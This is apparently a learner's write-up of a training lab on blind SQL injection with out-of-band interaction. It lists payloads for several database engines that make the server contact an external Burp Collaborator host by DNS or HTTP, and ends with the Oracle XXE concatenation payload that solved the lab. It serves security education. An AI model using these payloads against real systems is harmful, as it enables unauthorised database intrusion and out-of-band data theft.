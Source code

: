 # Lab: Blind SQL injection with out-of-band interaction
## Description

1) I tried a bunch of stuff such as:
```
MSSQL
'%3bexec+master..xp_dirtree+'//dvczx5oy75h3re10dcvhtyfs9jf93y.burpcollaborator.net/a'--

PostgressSQL
'%3bcopy+(SELECT+'')+to+program+'nslookup+dvczx5oy75h3re10dcvhtyfs9jf93y.burpcollaborator.net'--

SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://dvczx5oy75h3re10dcvhtyfs9jf93y.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual

SELECT UTL_INADDR.get_host_address('dvczx5oy75h3re10dcvhtyfs9jf93y.burpcollaborator.net')

exec master..xp_dirtree '//dvczx5oy75h3re10dcvhtyfs9jf93y.burpcollaborator.net/a'

copy (SELECT '') to program 'nslookup dvczx5oy75h3re10dcvhtyfs9jf93y.burpcollaborator.net'

LOAD_FILE('\\\\dvczx5oy75h3re10dcvhtyfs9jf93y.burpcollaborator.net\\a')

SELECT ... INTO OUTFILE '\\\\dvczx5oy75h3re10dcvhtyfs9jf93y.burpcollaborator.net\a'

SELECT users INTO OUTFILE '\\\\dvczx5oy75h3re10dcvhtyfs9jf93y.burpcollaborator.net\a'
```

I kinda gave up and decided to run the Burp Scanner against the target, which resulted in the lab being `Solved` and the SQL injection finding was identified as follows:

`'||(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % yyrcn SYSTEM "http://aaou2o2c1kd18cnsrylgpvk1dsjmia8ycm59vxk.burpcollab'||'orator.net/">%yyrcn;]>'),'/l') from dual)||'`

Looking back, I spent most of my time trying to do stacked queries using `'; {PAYLOAD}` but instead I should have tried concatenation. For the sake of completeness here is how that works: 

``|| (PAYLOAD_GOES_HERE) ||'`

Great learning XP!


## Solution
`'||(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % yyrcn SYSTEM "http://aaou2o2c1kd18cnsrylgpvk1dsjmia8ycm59vxk.burpcollab'||'orator.net/">%yyrcn;]>'),'/l') from dual)||'`

